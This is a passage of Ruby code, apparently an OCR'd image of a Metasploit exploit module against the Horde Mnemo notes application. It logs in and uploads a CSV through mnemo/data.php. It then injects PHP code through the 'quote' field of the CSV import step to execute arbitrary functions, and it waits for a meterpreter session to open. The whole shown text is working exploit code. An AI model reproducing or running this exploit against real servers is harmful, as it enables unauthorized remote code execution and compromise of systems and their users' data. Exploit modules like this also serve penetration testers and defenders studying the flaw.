 ```ruby
      vprint_good("Logged in as #{username}:#{password}")
      return res.get_cookies
    end
  end

  def upload_csv(cookie)
    data = Rex::MIME::Message.new
    data.add_part('11',  nil, nil, 'form-data; name="actionID"')
    data.add_part('1',   nil, nil, 'form-data; name="import_step"')
    data.add_part('csv', nil, nil, 'form-data; name="import_format"')
    data.add_part('x',   nil, nil, 'form-data; name="notepad_target"')
    data.add_part('x',   nil, nil, 'form-data; name="import_file"; filename="x"')
    res = send_request_cgi(
      'method' => 'POST',
      'uri'    => normalize_uri(target_uri, 'mnemo/data.php'),
      'cookie' => cookie,
      'ctype'  => "multipart/form-data; boundary=#{data.bound}",
      'data'   => data.to_s)
    if not res or res.code != 200
      fail_with(Failure::UnexpectedReply, 'Cannot upload the CSV file')
    else
      vprint_good('CSV file uploaded')
    end
  end

  def execute(cookie, function_call, check)
    options = {
      'method'    => 'POST',
      'uri'       => normalize_uri(target_uri, 'mnemo/data.php'),
      'cookie'    => cookie,
      'vars_post' => {
        'actionID'      => '3',
        'import_step'   => '2',
        'import_format' => 'csv',
        'header'        => '1',
        'fields'        => '1',
        'sep'           => 'x',
        'quote'         => ").#{function_call}.die();}//\\"}}
    if check
      # deliver the payload and return the body
      res = send_request_cgi(options)
      if not res or res.code != 200
        fail_with(Failure::UnexpectedReply, 'Cannot execute the payload')
      else
        vprint_good('Payload executed successfully')
        return res.body
      end
    else
      # deliver the payload in a a new thread since the meterpreter payload does
      # not terminate when successful this allows to poll for session creation
      t = framework.threads.spawn(nil, false) {
        send_request_cgi(options)
      }
      while t.alive? and not session_created?
        Rex::ThreadSafe.sleep(0.1)
      end
    end
  end

  def check
    begin
      cookie = login()
      upload_csv(cookie)
```